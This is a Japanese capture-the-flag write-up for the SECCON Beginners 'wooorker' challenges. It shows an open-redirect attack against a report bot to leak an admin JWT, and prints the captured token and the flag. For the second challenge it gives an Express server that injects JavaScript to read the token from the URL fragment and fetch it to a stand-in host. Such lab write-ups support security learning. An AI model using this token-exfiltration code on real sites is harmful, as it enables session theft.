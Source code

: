 このコードとpackage.jsonをGitHubのレポジトリに保存します。

その後、[Render](https://render.com/)という無料サーバを用いて、
GitHubのレポジトリを指定して、サーバを立ち上げます。

ngrokやgithubのcodespacesを用いてサーバを立ち上げた場合には、サーバにアクセスする前に確認画面が入るのでうまくいきませんでした。

Render上で立ち上げたサーバのURLを取得します。(以下では`https://example.com/`としています。)

脆弱性報告botに`login?next=https://example.com/`と入力します。その後、Render上のサーバのターミナルの出力を見て、受信したリクエストの内容を確認すると、
```
Received GET request for /?token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNzE4NDUzNzAyLCJleHAiOjE3MTg0NTczMDJ9.LfQhIqEBemmwxSZfSCedaqpKa-SlT9yPOYsyj56M5V8
```
のように表示されているはずです。(このtokenは私が獲得した時のもので、すでに有効期限を過ぎています。)

このtokenを使って`https://wooorker.beginners.seccon.games/?token=******`
にアクセスするとフラグを取得できます。

### フラグ

ctf4b{0p3n_r3d1r3c7_m4k35_70k3n_l34k3d}

## wooorker2

### 解法

woooker1の時に構築したサーバを少し改変します。

前回はクエリパラメータ(`?`以降の部分)にtokenを含んだ状態でリクエストが送られていましたが、今回はフラグメント(`#`以降の部分)にtokenが含まれています。
Render上のサーバが受け取るリクエストにはtokenの情報は含まれていません。リスポンスでJavascriptを含むHTMLを送り、SECCONサーバサイドでJavascriptを実行して、フラグメント部分にあるtokenをRender上のサーバ側に送信する処理を行うように試みます。

サーバのコードは以下のようになります。

Render上のサーバのURLは先ほど同様`https://example.com/`としています。

```javascript:server.js
const express = require('express');
const app = express();
const port = 3000;

app.get('/', (req, res) => {
  const script = `
    <script>
      const fragment = window.location.hash.substring(1);
      const params = new URLSearchParams(fragment);
      const tokenValue = params.get('token');
      fetch('https://example.com/token?value=' + tokenValue)
        .then(() => {
          document.body.innerHTML = '<h1>Token sent to server</h1>';
        })
        .catch((error) => {
          document.body.innerHTML = '<h1>Error sending token to server</h1>';
          console.error('Error:', error);
        });
    </script>
  `;
  res.send(script);
});

app.get('/token', (req, res) => {
  const tokenValue = req.query.value;
  console.log('Received token:', tokenValue);
  res.sendStatus(200);
});

```